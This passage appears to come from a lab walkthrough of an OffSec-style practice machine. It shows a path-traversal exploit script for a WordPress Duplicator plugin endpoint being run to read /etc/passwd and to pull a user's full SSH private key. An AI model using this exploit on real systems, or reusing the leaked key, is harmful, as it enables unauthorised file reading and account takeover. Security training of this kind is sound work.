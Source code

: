 ```bash
	file = sys.argv[2]
	
	URL = arg + "/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../.." + file
	
	output = re.get(url = URL)
	print(output.text)
```

- Use to attempt exploit
```bash
python3 50420_fileread.py http://192.168.181.244 /etc/passwd
	root:x:0:0:root:/root:/bin/bash
	...
	offsec:x:1000:1000:offsec:/home/offsec:/bin/bash
	...
	mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
	ftp:x:114:120:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
	daniela:x:1001:1001:,,,:/home/daniela:/bin/bash
	marcus:x:1002:1002:,,,:/home/marcus:/bin/bash
```
	- Add these to your creds text/ notes


- With this info, we can attempt to retrieve any ssh keys from these users
```bash
python3 50420_fileRead.py http://192.168.181.244 /home/marcus/.ssh/id_rsa
	Invalid installer file name!!
 
python3 50420_fileRead.py http://192.168.181.244 /home/marcus/.ssh/id_ecdsa
	Invalid installer file name!!
  
python3 50420_fileRead.py http://192.168.181.244 /home/daniela/.ssh/id_rsa
	-----BEGIN OPENSSH PRIVATE KEY-----
	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
```